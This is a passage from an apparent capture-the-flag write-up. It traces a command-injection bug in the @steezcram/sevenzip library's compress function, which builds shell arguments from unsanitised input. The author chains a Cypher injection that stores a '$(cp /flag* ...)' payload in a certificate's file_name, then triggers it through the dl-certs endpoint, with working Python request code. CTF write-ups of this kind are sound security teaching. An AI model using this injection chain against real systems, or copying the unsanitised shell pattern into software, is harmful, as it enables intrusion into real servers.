        dirsArray.push(fileDirectory);
    }
```

At the `/panel/management/dl-certs` endpoint, all certificates are fetched from the database and are iterated over an array that stores their path in the filesystem by reading the `file_name` field.

This is a value that we can control when enetering a new certificate using the injection we found before.

```js
dirsArray = [...new Set(dirsArray)];
const zipArray = [];
let madeError = false;

for (let i = 0; i < dirsArray.length; i++) {
    if (madeError) break;

    const dir = dirsArray[i];
    const zipName = "/tmp/" + randomHex(16) + ".zip";

    sevenzip.compress("zip", {dir: dir, destination: zipName, is64: true}, () => {}).catch(() => {
        madeError = true;
    })
    
    zipArray.push(zipName);  
}
```

Later the array with the paths is used to create zips containing the certificates, this is done by the `compress` function of the library `@steezcram/sevenzip`.

Let's dig a bit deeper on the source code of this library.

```js
module.exports.compress = function (algorithm, parameters, callback = undefined, progressCallback = undefined) 
{
    if (!parameters)
        throw 'Parameters cannot be undefined or null';
    if (parameters.dir && parameters.files)
        throw 'Cannot use dir and files property at the same time';
    if (!parameters.destination && parameters.files)
        throw 'Cannot use files property without destination property';
    if (!parameters.destination && parameters.dir)
        parameters.destination = path.dirname(parameters.dir);

    algorithm = (algorithm === '' || algorithm === null || algorithm === undefined) ? '7z' : algorithm;

    if (fs.existsSync(parameters.destination)) {
        if (fs.lstatSync(parameters.destination).isDirectory()) {
            if (parameters.dir === undefined)
                throw 'Destination is a directory';
    
            parameters.destination = path.join(parameters.destination, `${path.basename(parameters.dir)}.${algorithm}`);
        }
    }


    const dllPath = sevenZipBin.path7za;

    return new Promise((resolve, reject) => 
    {
        const sevenZipProcess = child_process.execFile(dllPath, buildCommandArgs('compress', parameters, algorithm), { shell: true, detached: false }, (error, stdout, stderr) =>
        {
            if (progressCallback) {
                progressCallback({
                    progress: 100,
                    fileProcessed: ''
                });
            }
            
            if (callback) callback(error);
            
            if (error) reject(error);
            else resolve();
        });

        let send = false;
        sevenZipProcess.stdout.on('data', (data) => {
            if (data.includes('1%'))
                send = true;
            else if (data.includes('99%'))
                send = false;

            if (progressCallback && send) {
                progressCallback(parseProgress(data));
            }
        });
    });
}
```

We can see that `child_process.execFile` is used with the option `shell: true` and the value of a `buildCommandArgs` call as a parameter.

```js
function buildCommandArgs(operation, parameters, algorithm = undefined)
{
    const arguments = [operation === 'compress' ? 'a' : 'x'];

    switch (operation) 
    {
        case 'compress':
            arguments.push(`-t${algorithm}`)
            arguments.push(`"${parameters.destination}"`);
            arguments.push(`"${parameters.dir}"`);

            switch (algorithm)
            {
                case '7z':
                case 'xz':
                    arguments.push('-m0=LZMA2');

                    if (parameters.level !== undefined)
                        arguments.push(`-mx=${parameters.level}`);
                    
                    if (parameters.password !== undefined)
                        arguments.push(`-p${parameters.password}`)
                    break;
                    
                case 'zip':
                    if (parameters.is64 !== undefined && parameters.is64)
                        arguments.push('-mm=Deflate64');
                    else
                        arguments.push('-mm=Deflate');

                    if (parameters.level !== undefined)
                        arguments.push(`-mx=${parameters.level}`);
                    break;
            }
            break;

        case 'extract':
            arguments.push(`"${parameters.archive}"`);
            arguments.push(`-o"${parameters.destination}"`);
            arguments.push('-aoa');
            break;
    }


    arguments.push('-bsp1');
    return arguments;
}
```

The `buildCommandArgs` is not sanitizing user input, so that means that `compress` is actually vulnurable to command injection in the `parameters.dir` variable.

Let's try overwriting the `file_name` field in the database to a command injection payload that we can trigger by making a request to `/panel/management/dl-certs`.

First let's build the injection in a way that will ignore the hardcoded partts of the query and manipulate it in a way that our data gets inserted.

```py
def cypher_injection(file_name):
    part_1 = f"payload.com', org_name: 'a', locality_name: 'a', file_name: '{file_name}',/*"
    part_2 = "*/state_name: 'a"
    return [part_1, part_2]
```

Now we can use the `generate_cert` function we made to generate the certificate that contains the injection.

```py
import requests

sid = "sid_session_cookie_after_admin_login"

command_injection = "/app/certificates/test$(cp /flag* /app/static/css/flag.txt)/test.cert"

cypher_1, cypher_2 = cypher_injection(file_name)
cert = generate_cert(cypher_1, "Organization", "City", cypher_2, "US")

cookies = {"connect.sid": sid}
requests.post(f"{CHALLENGE_URL}/panel/management/addcert", cookies=cookies, data=cert)
```

This will cause the following Cypher query to be executed:

```
CREATE (:Certificate {
    common_name: 'payload.com', org_name: 'a', locality_name: 'a', file_name: '/app/certificates/test$(cp /flag* /app/static/css/flag.txt)/test.cert',/*',
    file_name: '/app/certificates/1a7c7120090bdc647360.cert',
    org_name: 'Organization',
    locality_name: 'City',
    state_name: '*/state_name: 'a',
    country_name: 'US'
});
```

See how we comment out the hardcoded values we don't need.

```py
cookies = {"connect.sid": sid}
requests.get(f"{CHALLENGE_URL}/panel/management/dl-certs", cookies=cookies)
```

Now we trigger the command injection by a request, after this the flag should be reachable at `/static/css/flag.txt`.

